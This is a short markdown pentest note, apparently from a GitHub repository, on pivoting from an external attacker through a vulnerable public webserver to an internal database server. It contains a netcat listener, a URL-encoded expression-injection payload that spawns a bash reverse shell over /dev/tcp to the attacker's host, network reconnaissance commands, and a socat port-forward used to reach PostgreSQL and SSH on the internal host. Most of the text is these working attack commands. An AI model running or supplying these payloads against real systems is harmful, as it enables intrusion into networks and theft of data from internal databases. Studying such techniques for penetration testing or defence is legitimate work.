 ## Table of contents
- [Simple Port Forwading](#Simple-Port-Forwading)

# Simple Port Forwading

Scenario:
 - external attacker machine
 - vulnerable public webserver (RCE)
 - internal database server, same sebserver's network

```
+- WAN ------------+    +- DMZ -------------------------------+
|                  |    |                                     |
|   [ ATTACKER ]   |    |   [ VULN-PUBLIC-SRV ]  [ DB-SRV ]   |
|                  |    |                                     |
+------------------+    +-------------------------------------+
```

``` bash
# open a listener on the attacker machine
nc -nvlp 1337

# exploit the webserver with a reverse shell command
curl http://$TARGET:$PORT/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/$ATTACKER/$PORT%200%3E%261%27%29.start%28%29%22%29%7D/

# check the network configuration
# search for interesting information: webapp configuration, db credentials, ...
ip add
ip route
```

Port forwarding with socat:
 - the NAT configuration must be 1:1
 - socat must be installed on the target machine

```
+- WAN ------------+    +- DMZ -------------------------------+
|                  |    |                                     |
|   [ ATTACKER ]   |    |   [ VULN_PUBLIC_SRV ]  [ DB_SRV ]   |
|                ========== LISTEN 2345 ======== FRW 5432     | ==> for PgSQL
|                ========== LISTEN 2222 ======== FRW 22       | ==> for SSH
+------------------+    +-------------------------------------+
```

``` bash
socat -add TCP-LISTEN:2345,fork TCP:$DB_SRV:5432
```

Connect to DB_SRV from ATTACKER via VULN_PUBLIC_SRV:
``` bash
psql -h VULN_PUBLIC_SRV -p 2345 -U $user
```